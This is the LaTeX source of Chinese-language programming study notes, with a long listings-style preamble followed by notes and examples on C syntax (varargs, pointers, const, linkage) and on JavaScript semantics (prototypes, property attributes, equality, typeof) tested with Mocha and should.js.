\documentclass[12pt, oneside, b5paper]{book}  


\usepackage[a3paper]{geometry}

%\usepackage{CJKutf8}  

%to support < , >, and \_(_)
\usepackage[T1]{fontenc}

%
\usepackage{ulem}

\usepackage{xeCJK}
\setCJKmainfont{KaiTi}

%\defaultCJKfontfeatures{AutoFakeBold=6,AutoFakeSlant=.4} %以後不用再設定粗斜
\newCJKfontfamily\Kai{標楷體}       %定義指令\Kai則切換成標楷體
\newCJKfontfamily\Hei{微軟正黑體}   %定義指令\Hei則切換成正黑體
\newCJKfontfamily\NewMing{新細明體} %定義指令\NewMing則切換成新細明體


%source code style.
\usepackage{listings}

%customize caption
\usepackage{caption}

% predefined color style
\usepackage{color}
    \definecolor{lightgray}{rgb}{0.95, 0.95, 0.95}
    \definecolor{darkgray}{rgb}{0.4, 0.4, 0.4}
    \definecolor{purple}{rgb}{0.65, 0.12, 0.82}
    \definecolor{ocherCode}{rgb}{1, 0.5, 0} % #FF7F00 -> rgb(239, 169, 0)
    \definecolor{blueCode}{rgb}{0, 0, 0.93} % #0000EE -> rgb(0, 0, 238)
    \definecolor{greenCode}{rgb}{0, 0.6, 0} % #009900 -> rgb(0, 153, 0)
    \definecolor{mygray}{gray}{.75}
    \definecolor{orange}{RGB}{255, 165, 0}
    \definecolor{bluekeywords}{rgb}{0.13,0.13,1}
	\definecolor{greencomments}{rgb}{0,0.5,0}
	\definecolor{redstrings}{rgb}{0.9,0,0}
	
\usepackage{upquote}
\usepackage{float}
\usepackage{graphicx}
\usepackage{epstopdf}


% style for C#
\lstnewenvironment{CSharp}[1][]
{\lstset{language=[Sharp]C,
  showspaces=false,
  showtabs=false,
  breaklines=true,
  showstringspaces=false,
  breakatwhitespace=true,
  escapeinside={(*@}{@*)},
  commentstyle=\color{greencomments},
  keywordstyle=\color{bluekeywords},
  stringstyle=\color{redstrings},
  basicstyle=\ttfamily,
  captionpos=t, 
  caption=【C\#】#1
}}
{}

% style for HTML5

\lstdefinelanguage{HTML5}{
    sensitive=true,
    keywords={%
    % JavaScript
    typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break,
    % HTML
    html, title, meta, style, head, body, script, canvas,
    % CSS
    border:, transform:, -moz-transform:, transition-duration:, transition-property:,
    transition-timing-function:
    },
    % http://texblog.org/tag/otherkeywords/
    otherkeywords={<, >, \/},   
    ndkeywords={class, export, boolean, throw, implements, import, this},   
    comment=[l]{//},
    % morecomment=[s][keywordstyle]{<}{>},  
    morecomment=[s]{/*}{*/},
    morecomment=[s]{<!}{>},
    morestring=[b]',
    morestring=[b]",    
    alsoletter={-},
    alsodigit={:}
}
\lstdefinelanguage{CSS}{
 morekeywords={family,text,decoration,accelerator,azimuth,background,background-attachment,
    background-color,background-image,background-position,
    background-position-x,background-position-y,background-repeat,
    behavior,border,border-bottom,border-bottom-color,
    border-bottom-style,border-bottom-width,border-collapse,
    border-color,border-left,border-left-color,border-left-style,
    border-left-width,border-right,border-right-color,
    border-right-style,border-right-width,border-spacing,
    border-style,border-top,border-top-color,border-top-style,
    border-top-width,border-width,bottom,caption-side,clear,
    clip,color,content,counter-increment,counter-reset,cue,
    cue-after,cue-before,cursor,direction,display,elevation,
    empty-cells,filter,float,font,font-family,font-size,
    font-size-adjust,font-stretch,font-style,font-variant,
    font-weight,height,ime-mode,include-source,
    layer-background-color,layer-background-image,layout-flow,
    layout-grid,layout-grid-char,layout-grid-char-spacing,
    layout-grid-line,layout-grid-mode,layout-grid-type,left,
    letter-spacing,line-break,line-height,list-style,
    list-style-image,list-style-position,list-style-type,margin,
    margin-bottom,margin-left,margin-right,margin-top,
    marker-offset,marks,max-height,max-width,min-height,
    min-width,-moz-binding,-moz-border-radius,
    -moz-border-radius-topleft,-moz-border-radius-topright,
    -moz-border-radius-bottomright,-moz-border-radius-bottomleft,
    -moz-border-top-colors,-moz-border-right-colors,
    -moz-border-bottom-colors,-moz-border-left-colors,-moz-opacity,
    -moz-outline,-moz-outline-color,-moz-outline-style,
    -moz-outline-width,-moz-user-focus,-moz-user-input,
    -moz-user-modify,-moz-user-select,orphans,outline,
    outline-color,outline-style,outline-width,overflow,
    overflow-X,overflow-Y,padding,padding-bottom,padding-left,
    padding-right,padding-top,page,page-break-after,
    page-break-before,page-break-inside,pause,pause-after,
    pause-before,pitch,pitch-range,play-during,position,quotes,
    -replace,richness,right,ruby-align,ruby-overhang,
    ruby-position,-set-link-source,size,speak,speak-header,
    speak-numeral,speak-punctuation,speech-rate,stress,
    scrollbar-arrow-color,scrollbar-base-color,
    scrollbar-dark-shadow-color,scrollbar-face-color,
    scrollbar-highlight-color,scrollbar-shadow-color,
    scrollbar-3d-light-color,scrollbar-track-color,table-layout,
    text-align,text-align-last,text-decoration,text-indent,
    text-justify,text-overflow,text-shadow,text-transform,
    text-autospace,text-kashida-space,text-underline-position,top,
    unicode-bidi,-use-link-source,vertical-align,visibility,
    voice-family,volume,white-space,widows,width,word-break,
    word-spacing,word-wrap,writing-mode,z-index,zoom},
  morestring=[s]{:}{;},
  sensitive,
  morecomment=[s]{/*}{*/}
}

\lstnewenvironment{CSS}[1][]
  {\lstset{
     language=CSS,
     backgroundcolor=\color{lightgray},
     extendedchars=true,
     basicstyle=\footnotesize\ttfamily,
     showstringspaces=false,
     showspaces=false,
     numbers=left,
     numberstyle=\footnotesize,
     numbersep=9pt,
     tabsize=2,
     breaklines=true,					 % sets automatic line breaking
     showtabs=false,
     captionpos=t,						 % sets the caption-position to top
     caption=【CSS】#1
  }}
  {}



\lstnewenvironment{HTML}
 {\lstset{
   language=HTML5,
   basicstyle=\scriptsize\ttfamily,
   keywordstyle=\bfseries\ttfamily,
   commentstyle=\color{gray}\ttfamily,
   escapechar=| % Escape to LaTeX between |...|
 }}
 {}
 
\lstnewenvironment{HTML5}[1][]
 {\lstset{
   language=HTML5,
   basicstyle=\scriptsize\ttfamily,
   keywordstyle=\bfseries\ttfamily,
   commentstyle=\color{gray}\ttfamily,
   escapechar=| % Escape to LaTeX between |...|
   breaklines=true,					 % sets automatic line breaking
   showtabs=false,
   captionpos=t,						 % sets the caption-position to top
   caption=【HTML5】#1
 }}
 {}

% style for JavaScript

\lstdefinelanguage{JavaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  keywordstyle=\color{blue}\bfseries,
  ndkeywords={class, export, boolean, throw, implements, import, this},
  ndkeywordstyle=\color{darkgray}\bfseries,
  identifierstyle=\color{black},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  morecomment=[s]{<!--}{-->},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  morestring=[b]',
  morestring=[b]"
}

\lstnewenvironment{JavaScript}[1][]
  {\lstset{
     language=JavaScript,
     backgroundcolor=\color{lightgray},
     extendedchars=true,
     basicstyle=\footnotesize\ttfamily,
     showstringspaces=false,
     showspaces=false,
     numbers=left,
     numberstyle=\footnotesize,
     numbersep=9pt,
     tabsize=2,
     breaklines=true,					 % sets automatic line breaking
     showtabs=false,
     captionpos=t,						 % sets the caption-position to top
     caption=【JavaScript】#1
  }}
  {}
  
% keep this for some old code
\lstdefinestyle{js} {
    numbers=left,
    language=JavaScript,
    breaklines=true
}

   
% style for Ruby
\lstdefinestyle{ruby} {
    numbers=left,
    language=Ruby,
    breaklines=true,
    backgroundcolor=\color{lightgray},
    basicstyle=\ttfamily\color{black},
	commentstyle=\ttfamily\color{red},
	keywordstyle=\ttfamily\color{blue},
	stringstyle=\color{orange}
}

\lstnewenvironment{Ruby}
  {\lstset{
     style=ruby
  }}
  {}
  
% style for Scala

\lstdefinelanguage{Scala}{
  morekeywords={def, val},
  alsolanguage=Java,
  %keywords={object, extend, package},
  keywordstyle=\color{blue}\bfseries,
  %ndkeywords={class, export, boolean, throw, implements, import, this},
  %ndkeywordstyle=\color{darkgray}\bfseries,
  identifierstyle=\color{black},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  morecomment=[s]{<!--}{-->},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  morestring=[b]',
  morestring=[b]"
}

\lstnewenvironment{Scala}[1][]
  {\lstset{
     language=Scala,
     backgroundcolor=\color{lightgray},
     extendedchars=true,
     basicstyle=\footnotesize\ttfamily,
     showstringspaces=false,
     showspaces=false,
     numbers=left,
     numberstyle=\footnotesize,
     numbersep=9pt,
     tabsize=2,
     breaklines=true,					 % sets automatic line breaking
     showtabs=false,
     captionpos=t,						 % sets the caption-position to top
     caption=【Scala】#1
  }}
  {}

\lstnewenvironment{Java}[1][]
  {\lstset{
     language=Java,
     backgroundcolor=\color{lightgray},
     extendedchars=true,
     basicstyle=\footnotesize\ttfamily,
     showstringspaces=false,
     showspaces=false,
     numbers=left,
     numberstyle=\footnotesize,
     numbersep=9pt,
     tabsize=2,
     breaklines=true,					 % sets automatic line breaking
     showtabs=false,
     captionpos=t,						 % sets the caption-position to top
     caption=【Java】#1
  }}
  {}
  

\lstnewenvironment{XML}[1][]
  {\lstset{
     language=XML,
     backgroundcolor=\color{lightgray},
     extendedchars=true,
     basicstyle=\footnotesize\ttfamily,
     showstringspaces=false,
     showspaces=false,
     numbers=left,
     numberstyle=\footnotesize,
     numbersep=9pt,
     tabsize=2,
     breaklines=true,					 % sets automatic line breaking
     showtabs=false,
     captionpos=t,						 % sets the caption-position to top
     caption=【XML】#1
  }}
  {}

% style for Bash
\lstnewenvironment{Bash}[1][]
  {\lstset{
  	language=bash,
  	basicstyle=\small\sffamily,
  	numbers=left,
  	numberstyle=\tiny,
  	numbersep=3pt,
  	frame=tb,
  	columns=fullflexible,
  	backgroundcolor=\color{lightgray},
  	linewidth=0.9\linewidth,
  	xleftmargin=0.1\linewidth,
  	captionpos=t,						 % sets the caption-position to top
    caption=【Bash】#1
  }}
  {}

% style of caption for all styles
  \DeclareCaptionFormat{listing}{#1#2#3}
  \captionsetup[lstlisting]{
  	format=listing,
  	singlelinecheck=false,
  	margin=0pt,
  	font={sf},
  	labelsep=space,
  	labelfont=bf
  	}
% add this to the head of all chapter
% \renewcommand\lstlistingname{xxx}  
  
% defult setting 
\lstset{
   language=JavaScript,
   backgroundcolor=\color{lightgray},
   extendedchars=true,
   basicstyle=\footnotesize\ttfamily,
   showstringspaces=false,
   showspaces=false,
   numbers=left,
   numberstyle=\footnotesize,
   numbersep=9pt,
   tabsize=2,
   breaklines=true,
   showtabs=false,
   captionpos=b
}



\pagestyle{headings}
%\pagenumbering{arabic}

\title{编程}
%\author{石峰\\
%			上海 长宁}
\date{April 20, 2014}


\includeonly{c/chapter-c.learn.when.i.was.studying.unix}

%\includeonly{javascript/chapter-javaScript.unit.test}
%\includeonly{javascript/chapter01-javascript.language}
%\includeonly{javascript/chapter-javascript.language.ecma6}
%\includeonly{javascript/chapter03-javaScript.library}
%\includeonly{javascript/chapter-javascript.browser}
%\includeonly{javascript/chapter-javascript.node}

%\includeonly{css/chapter-css.toturial}

%\includeonly{web/chapter-web}
%\includeonly{web/chapter-web.performance}

%\includeonly{c.sharp/chapter-c.sharp}
%\includeonly{function.programming/chapter-function.programming}

%\i1ncludeonly{chapter-ruby.koans}
%\includeonly{java/chapter-java.concurrency}
%\includeonly{java/chapter-java.key.tech}
%\includeonly{java/chapter-java.osgi}

%\includeonly{java/chapter-java.maven}

%\includeonly{java/chapter-java.library.guice}

%\includeonly{java/chapter-java.library.spring}

%\includeonly{algorithms/chapter-algorithm}

%\includeonly{linux/chapter-system.api}
%\includeonly{linux/chapter-linux.notes}
%\includeonly{linux/chapter-regex}
%\includeonly{linux/chapter-linux.shell.commands}


%\includeonly{protocol/chapter-protocol}
	
\begin{document}  
%\begin{CJK}{UTF8}{gkai}
\maketitle

% contents
%\tableofcontents

\part{C语言}

\chapter{边学Linux边学C语言}


\section{C语言编程规范}

先按下划线命名吧。

\section{语法部分}


\subsubsection{可变参数列表}


\begin{itemize}
\item 是通过宏来实现的;
\item 导入\lstinline$stdarg.h$这个头文件,标准库的一部分使用到一个类型\lstinline$va_list$和三个宏:\lstinline$va_start$, \lstinline$va_arg$, \lstinline$va_end$;
\item 步骤:
\begin{enumerate}
\item 函数申明一个\lstinline$va_list$;
\item 通过调用\lstinline$va_start$来初始化,第一个参数为申明的\lstinline$va_list$,第二个参数为省略号前面最后一个有名字的变量;
\item 使用\lstinline$va_arg$来访问参数,接收两个参数,第一个是\lstinline$va_list$变量,第二个是参数的类型,这也是为什么\lstinline$printf$可以使用不同的参数,因为根据前面格式化字符串来确定后面对应参数类型;
\item 最后当访问完最后一个参数之后,需要调用\lstinline$va_end$ 
\end{enumerate}

\end{itemize}

\begin{C}
/*
 * arguments_list.c
 *
 *  Created on: Jun 12, 2015
 *      Author: root
 */


#include <stdarg.h>

float average(int n_values, ...)
{
	va_list var_arg;
	int count;
	float sum = 0;

	/*
	 * start to visit var list
	 */
	va_start(var_arg, n_values);

	/*
	 *
	 */
	for( count = 0; count < n_values; count +=1 )
	{
		sum += va_arg(var_arg, int);
	}

	/*
	 *
	 */
	va_end(var_arg);

	return sum / n_values;
}

\end{C}

\subsubsection{指针}

\begin{C}[最好使用的写法是这样]
int *a;
\end{C}

\begin{C}[因为这样可能误导以为三个变量都是指针,实际上只有第一个是]
int* b, c, d;
\end{C}

\subsubsection{链接属性 external, internal, none}

\begin{itemize}
\item external,不论声明多少次,位于几个源文件都表示同一个实体;
\item internal,在同一个源文件内的所有声明都是同一个实体;
\item none,多个声明被当做不同的实体;
\end{itemize}

extern和static关键字修改标识符的链接属性,static关键字只对原来是exteranl的属性生效,使其变为internal;extern关键字用于源文件中一个标识符的第一次申明时指定该标识具有external的属性,但是如果它用于该标识的第二次或以后的申明,他并不会改变由第一次申明指定的链接属性。


extern只有在声明的时候才是必需的。因为子文件作用域定义的变量就是external的。

\subsubsection{数组变量和指针变量的区别}

\subsubsection{定义字符串常量}
[http://stackoverflow.com/questions/1431576/how-do-you-declare-string-constants-in-c]

\subsubsection{const在C中和Java中的不同}
[http://stackoverflow.com/questions/27588918/const-and-pointers-in-c]

\begin{C}[为什么这样会有编译错误呢?]
const char *str = "abc";
str[0] = 'd';
\end{C}

这里是C和指针中的解释:

\begin{C}[这两个是相同的,表示a的值不能修改]
int const a;
const int a;
\end{C}


\begin{C}[这个的话,表示指针可以修改,但是指向的值不能修改]
int const *pci;
\end{C}

\begin{C}[这个的话,指针是常量,值可以修改]
int * const cpi;
\end{C}

\begin{C}[这个指针和值都不能修改]
int const * const cpci;
\end{C}

这个按照一篇文章说的来解读变量的定义很方便的,后面找到那个再补充。


这样上面的例子就很清楚了,\lstinline$const char *str$的指向的变量的值是不能修改的,而通过下标取值就是求值的意思,所以编译报错了(看这篇问题里面说,通过这个指针来得到的值,编译器认为就是不可变的,也不知道这种说法对不对,感觉有一定道理)。

\subsection{函数指针,怎么感觉函数名和函数的值是一样的啊}

\begin{C}[这是我不能理解的]
printf("function != &function:%s\n", 
	output_file == &output_file? "true":"false");
\end{C}

根据C和指针上面的解释:初始化表达式中的\&操作符是可选的,因为函数名被使用时,总是由编译器把他转换为函数指针的。\&操作符只是显式的说明了编译器将隐式执行的任务。

\subsection{define宏\#是什么?}

这个是创建运算符(\#),以资源名产生字符串的值。

\begin{C}
#define TEST_NAME 1
#define p(name) print_name(#name, name)

static void print_name(char *name, int value)
{
	printf("value of \"%s\" is %d.\n", name, value);
}

void test_pound_sign()
{
	p(TEST_NAME);
}
\end{C}

\begin{Command-Line}[运行结果]
value of "TEST_NAME" is 1.
\end{Command-Line}

\part{javascript}
\chapter{Mocha}

使用npm来安装Mocha
\begin{Bash}
npm install -g mocha
\end{Bash}
创建测试目录
\begin{Bash}
mkdir test
vi test/test.js
\end{Bash}

\subsection{Assert}
使用扩充的assert库来进行断言
\begin{Bash}
npm install should --save-dev
\end{Bash}
\renewcommand\lstlistingname{Mocha}  
\chapter{JavaScript 语言}

面向对象,有两种实现面向对象的方式:基于类和基于原型的继承.

基于类的继承. 类是模板,继承的是行为。
	
基于原型的继承, 所有的都是对象(当然还有基本类型),继承的是状态和行为.JavaScript是基于原型的继承,这里只有对象,没有类的概念。

\begin{JavaScript}
var a = {};	
a.b = 10;
console.log(a.b); // 10
console.log(a["b"]); // 10
a.foo = function() {
	console.log("invoke foo");
};
a.foo();
\end{JavaScript}

JavasScript中对象的定义是: Object是Property的集合,property是一个值或者对象的引用. JavaScript对象是一组属性的集合,这些属性引用的是一个对象或者基本类型.
	
首先,第一行生成一个对象,并将它赋值给a。然后第二行,a.b = 10,这个时候,因为a没有b这个property,所以给他生成了一个b property,并将10复制给他,第三行,打印a.b,结果是10.第四行,对对象属性的访问有两种方式,.和[]。不同之处是.后面是直接跟标识符,而[]中是字符串,注意第四行的b是有引号的。
	
在在后面,将我们定义的函数赋值给foo property,这里又不同于Java,我们前面说了,JavaScript中一切皆对象,所以函数也是对象,他是一类比较特殊的对象,可以通过被调用。因为函数是对象,所以他也可以赋值给对象的属性。赋值之后,我们可以调用他。
	
\section{JavaScript的类型}

\subsection{基本类型}

JavaScript只有对象这种说法也不是太准确,JavaScript有基本类型和对象两类。只是在使用基本类型的时候,如果必要,基本类型会被自动转换为对象类型。

基本类型有Undefined, Null, Boolean, String和Number类型

\begin{tabular}{|r|l|}
\hline
类型 & 说明 \\
\hline
Undefined & 有且只有一个值,undefined。\\
\hline
Null & 有唯一的值null \\
\hline
Boolean & 两个值,true和false \\
\hline
String & 如 "abc" \\
\hline
Number & 只有浮点型表示。 NaN, Infinity, -Infinity \\
\hline
\end{tabular}

JavaScript中的undefined就是这个值,只是undefined不是关键字,而是一个全局变量。可能被赋其他值。所以可以使用void表达式来表示,如void 0 
\begin{JavaScript}
		it('void 0 is undefined', function(){
			should(void 0).be.exactly(undefined);
		});
\end{JavaScript}

\subsection{对象类型}

\begin{itemize}
\item 对象就是property的集合。
\item 给对象property赋值,如果存在,就修改值,如果不存在,就创建一个新的property,并赋值。
\item 函数也是对象,可以赋值给property。
\end{itemize}
	
对于property,我们可以先将他看成有两类property,一类就是我们上面看到的,实际上,他还要细分为data property 和 access property。上面和下面所说的也就是data property。我们平时写代码生成的也是data property类型。
	
再来有一类我们叫做internal property,他是在我们程序级别是看不到的,而是提供给语言内部实现级别所使用的。例如我们将要讨论的原型,每个对象都有原型属性,但是我们在程序中无法通过.的方式来访问他,我们在谈论到internal property的时候,会使用[[]]来表示,例如,原型属性我们会表示成[[prototype]]。
	
\subsection{Prototype}
	
js是通过原型的方式来实现继承的。原型实际上就是对象的一个internal property [[prototype]],每个对象都有[[prototype]]属性,他指向一个对象,而原型本身也有[[prototype]]属性,这样一直链接到最顶端的一个特殊对象,他的原型是空的(是null,不是undefined),所有的对象的原型链的顶端都是这个对象。这就是我们说的原型链。
\begin{JavaScript}[原型链的顶端是null]
		it('__proto__ of Object.prototype is null', function(){
			should(Object.prototype.__proto__).be.exactly(null);
		});
\end{JavaScript}
在浏览器中,我们可以通过属性名\lstinline!__proto__!来引用内部属性[[prototype]]。
	
然后我们说说原型的作用,他就是帮我们来解析.和[]取得什么样的值的。当我们通过.的方式来读取一个对象的property的时候,会在当前对象中查找看看是否有这个property,如果有,就返回,如果没有,就会尝试着在他的[[prototype]]上来查找,如果找到了就返回,如果没有找到,就继续在这个链往上找,直到找到最顶,如果还没有找到,那就会返回undefined。
	
	
\begin{JavaScript}
var proto = {bar : 10};
var foo = Object.create(proto);

console.log(foo.bar); // 10
console.log(foo.bar2); // undefined

proto.bar2 = 20; 
console.log(foo.bar2); // 20
\end{JavaScript}
	
这里的Object.create函数是用来创建一个对象,他的原型是传入的参数。在第四行,因为在原型对象上定义了bar,所以可以取到值10,而bar2没有定义,所以得不到值,返回undefined。然后在第七行,我们给proto的bar2赋值20,这样当我们再次调用foo.bar2的时候,在原型链上查找,可以找到值20了。
	
	
这里说到的是取值,实现了继承。接着是赋值,赋值很简单,如果存在就修改值,不存在就新增这个属性,这里所说的存在与不存在是指当前对象,而不是只原型链上存不存在。
	
\begin{JavaScript}
var proto = {x: 10};

var foo = Object.create(proto);
var bar = Object.create(proto);

console.log(foo.x); // 10
console.log(bar.x); // 10

foo.x = 20;

console.log(foo.x); // 20
console.log(bar.x); // 10
console.log(proto.x); // 10
\end{JavaScript}
		
这里可以看到foo和bar都是继承proto,所以x都等于10,而在foo.x = 20之后,foo上创建了x,并且赋值20。所以当取foo.x是等于20。而bar.x和proto.x还是10。

\subsection{Property}

\subsubsection{Data Property 和 Access Property}

从逻辑上来讲,Object是一系列property的集合,其中property可能是data property或者access property。
\begin{itemize}
\item data property就是一个key和一个ECMAScript语言类型的值和一系列boolean型的Attribute组成。
\item access property就是一个key和一个或者两个accessor function和一系列boolean型的Attribute组成。
\end{itemize}	
这里的key,要么是一个string,要么是一个symbol(ECMAScript6)。

ECMAScript的使用key来标示Property,有两中方式来访问Property。get和set。

\subsubsection{Attribute}
Attribute则是规范用来定义和解释Property的。

Data Property的Attribute

\begin{tabular}{|l|l|l|}
\hline
属性名 & 属性值 & 解释 \\
\hline
\lstinline![[Value]]! & 任意ECMAScript语言类型 & 属性的值 \\
\hline
\lstinline![[Writable]]! & Boolean & 如果是false,则通过[[Set]]来设定[[Value]]不会成功。 \\
\hline
\lstinline![[Enumerable]]! & Boolean & 如果是true,则可以在for-in中被迭代。 \\
\hline
\lstinline![[Configurable]]! & Boolean & \parbox[t]{8cm}{如果是false,则删除,从Data转换成accessor Property,修改除\lstinline![[Value]]! 之外的值都会失败}\\
\hline
\end{tabular}

\begin{JavaScript}[Data Property中Attribute的默认值]
		it(' should return correct default descriptor', function(){
			var foo  = Object.create({}, {
				bar: {}
			});
			var descriptor = Object.getOwnPropertyDescriptor(foo, 'bar');
			descriptor.should.eql(
				{
					value: undefined, 
					writable: false, 
					enumerable: false, 
					configurable: false
				});
		});
\end{JavaScript}

\begin{JavaScript}[writable为false时,不能修改Value]
		it(' should not able to change property value when writable is false', function(){
			var foo = Object.create({}, {
				bar: {value: 100, writable: false}
			})

			foo.bar = 200;
			foo.bar.should.be.exactly(100).and.be.Number;
		});
\end{JavaScript}

\begin{JavaScript}[enumerable为false时,key不会再for in语句中出现]
		it(' should not be able to enumerate in for in statement when enumerable is false', function(){
			var foo = Object.create({}, {
				bar: {value: 100, enumerable: false}
			});

			for (var key in foo)
			{
				key.should.not.be.exactly('bar');
			}
		});
\end{JavaScript}

\begin{JavaScript}[configurable为false时,不能修改除Value之外的Attributes]
		it(' should not be able to modify attributes of property excluded [[Value]] when configurable is false', function(){
			var foo = Object.create({}, {
				bar: {value: 100, writable: true, enumerable: false, configurable: false}
			});

			var descriptor = {value: 200, writable: false, enumerable: true, configurable: true};
			(function(){
				Object.defineProperty(foo, 'bar', descriptor);
			}).should.throw();

			foo.bar = 200;
			foo.bar.should.be.exactly(200).and.be.Number;			
		});
\end{JavaScript}

\begin{tabular}{|l|l|l|}
\hline
属性名 & 属性值 & 解释 \\
\hline
\lstinline![[Get]]! & & \\
\hline
\lstinline![[Set]]! & & \\
\hline
\lstinline![[Enumerable]]! & & \\
\hline
\lstinline![[Configurable]]! & Boolean & \\
\hline
\end{tabular}

\begin{JavaScript}[Accessor Property的Attributs的默认值]
		it('should get correct default descriptor', function(){
			var foo = Object.create({}, {
				bar : {get: undefined}
			});
			var descriptor = Object.getOwnPropertyDescriptor(foo, 'bar');
			descriptor.should.eql({
				get: undefined,
				set: undefined,
				enumerable: false,
				configurable: false
			});
		});
\end{JavaScript}

\begin{JavaScript}[对于Accessor Property,接受请求的对象会被当做this]
		it('base should be treat as this when assign or get property value', function(){
			var foo = Object.create({}, {
				bar: {get: function(){
					return this._bar;
				}, 
				set: function(value){
					this._bar = value;
				}}
			});
			foo.bar = 100;
			foo.should.have.ownProperty('_bar').be.exactly(100);
			foo.should.have.ownProperty('bar').be.exactly(100);
		});
\end{JavaScript}

\subsubsection{对Property进行赋值操作}
这里稍微比前面说如果对象上不存在某个被赋值的属性,就创建会要复杂点。对于对象上已经存在这个Property的情况,赋值的赋值,调用set方法的调用set方法。

而对于Property在对象上不存在的,可以分三种情况处理:
\begin{itemize}
\item 如果这个Property在原型链上不存在的话,则会创建一个Data Property
\begin{JavaScript}[Property在原型链上也不存在的话]
		it('should create a own data property when assignning a not exist property', function() {
			foo = Object.create({}, {});
			foo.bar = 100;
			foo.should.have.ownProperty('bar').be.exactly(100);
			var descriptor = Object.getOwnPropertyDescriptor(foo, 'bar');
			descriptor.should.eql({
				value: 100,
				writable: true,
				enumerable: true,
				configurable: true
			})
		});
\end{JavaScript}
\item 如果这个Property在原型链上存在一个Accessor Property的话,直接调用这个Accessor Property的\lstinline![[Set]]!方法,reciver会被当做this来传给这个方法。
\begin{JavaScript}[原型链上存在Accessor Property的情况]
		it('should not create own propert when assignning a inherited accessor property', function(){
			var x = 100
			var parent= {};
			Object.defineProperty(parent, 'bar', {set: function(value){x = value}});

			foo = Object.create(parent, {});

			foo.should.not.have.ownProperty('bar');
			foo.bar = 200;
			foo.should.not.have.ownProperty('bar');
			x.should.be.exactly(200);
		});
\end{JavaScript}

\item 如果原型链上存在一个Data Property的话,还是直接在当前对象上创建一个Data Property.
\begin{JavaScript}[原型链上存在Data Property的情况]
		it('should create a own data property when assignning a inherited data property', function(){
			foo = Object.create({bar: 200}, {});

			foo.should.not.have.ownProperty('bar');
			foo.bar = 100;
			foo.should.have.ownProperty('bar').be.exactly(100);
		});
\end{JavaScript}
\end{itemize}
	
\subsection{== 和 ===}

\begin{itemize}
\item ToNumber

\begin{tabular}{|l|l|}
\hline
参数 & 值 \\
\hline
Undefined & NaN \\
\hline
Null & 0 \\
\hline
Boolean & true转换为1,false转换为0 \\
\hline
String & 将string转换为数字 \\
\hline
Object & 先转换为基本类型,然后再按上面的转换 \\
\hline
\end{tabular}

\item PrimtiveValue

根据参数Hint来判断怎么执行,如果Hint是number,
对象转换为基本类型看valueOf是不是返回基本类型,不是再看看toString是不是返回基本类型,如果还不是则抛错。

如果Hint是String,
对象转换为基本类型看toString是不是返回基本类型,不是再看看valueOf啊、是不是返回基本类型,如果还不是则抛错。

如果不带Hint,则按Hint是number来执行。
\end{itemize}

\begin{itemize}
\item == 

\begin{enumerate}
\item 对左右引用类型求值,设左边是lval,右边是rval;
\item 如果lval和rval是相同类型的话。
	\begin{itemize}
	\item 基本类型的话,按正常的相等性进行比较.
	\item NaN不等于其他值.
	\item 不是基本类型时,如果不是引用同一个对象,则两者不相等。
	\end{itemize}
\item 当lval和rval是不同类型的时候
	\begin{itemize}
	\item undefined等于null。
	\item undefined和null不等于其他值
	\item 如果有boolean型,则将其转换为number,再比较
	\item 如果有一方是对象,一方是数字或者字符串,将对象转换为基本类型再比较
	\item 如果是数字和字符串比较,转换为数字在比较
	\item 其他情况一律不相等
	\end{itemize}
\end{enumerate}

\item ===
如果是不同类型,直接返回false,如果是相同类型,比较结果和 == 一样。
\end{itemize}

\begin{JavaScript}
		it('test between same type', function(){
			should(undefined == undefined).be.ok;
			should(null == null).be.ok;
			should(NaN == 1).not.be.ok;
			should(NaN == NaN).not.be.ok;
			should({} == {}).not.be.ok;
		});
\end{JavaScript}
对于相同类型的值得比较,NaN不和自己本身以及任何数相等。两个不同的对象是不相等的。

\begin{JavaScript}
		it('test between different type', function(){
			should(undefined == null).be.ok;
			should(0 == undefined).not.be.ok;
			should(0 == null).not.be.ok;
			should(2 == true).not.be.ok;
			should(1 == true).be.ok;
			should(0 == false).be.ok;

			should(1 == '1').be.ok;

			var a = {
				toString: function() {return "a"},
				valueOf: function(){return 1;}
			}
			should(a == 1).be.ok;
			should(a == "a").not.be.ok;

			should(true == a).be.ok;
		});
\end{JavaScript}
\begin{JavaScript}
		it('should throw exception', function(){
			(function(){
				var a = {toString: undefined, valueOf: undefined};
				a == 1;
			}).should.throw();
			// 先调用valueOf,再调用toString(一般来说), 
			// 如果都不是函数, 或者返回的都不是基本类型,报错
			(function(){
				var a = {toString: function(){ return {}}, valueOf: function(){return {}}};
				a == 1;
			}).should.throw();
		});
\end{JavaScript}
对于不同的类型,undefined和null是相等的,因为boolean的转化造成基本类型是1和0,所以2是不会等于boolean型的。对于有字符串或者数字参与的比较,需要将对象转变为基本类型。如果和valueOf和toString都不存在,则会在转换的过程抛出错误。

\subsection{typeof 和 instanceof}
typeof就是返回后面所跟引用的类型,这个值是固定的。

\begin{tabular}{|r|l|}
		\hline
		类型	& 	结果\\
		\hline
		Undefined 	& 	"undefined" \\
		\hline
		Null		&	"object" \\
		\hline
		Boolean		&	"boolean" \\
		\hline
		Number		&	"number" \\
		\hline
		String		&	"string" \\
		\hline
		Host object & Implementation-dependent \\
		\hline
		Function object & "function"\\
		\hline
		Any other object &	"object"\\
		\hline
\end{tabular}

\subsubsection{typeof的运算过程,为什么不会抛出异常?}

instanceof运算符用来检测constructor.prototype是否存在于参数object的原型链上.
\begin{JavaScript}
		it('test if Constructor.prototype on the prototype chain', function(){
			function Foo(){}

			var foo = Object.create(Foo.prototype);

			should(foo instanceof Foo).be.exactly(true);

			var foo2 = Object.create(Foo);

			should(foo2 instanceof Foo).be.exactly(false);
		});
\end{JavaScript}
	
\subsection{ECMA spec中和本节相关概念}
\section{关于函数部分的准备知识}
\subsection{Lexical Environment}

Lexical Environment是规范中使用定义变量和函数标识符的关系结构。Lexical Environement由Environment Record和一个指向外部Lexical Environment的引用(可空)。

Environment Record有两种类型,一种是Declarative Environment Record,他不提供this值,直接返回返回undefined。

一种是Object Environment Record。 Declarative Environment Record用于定义标识符,而Object Environment将他的binding对象和标示符绑定,标识符会被绑定到binding对象的对应Property上,如果自身的provideThis是true,绑定的object会被当做this值来提供,provideThis的默认值是false。

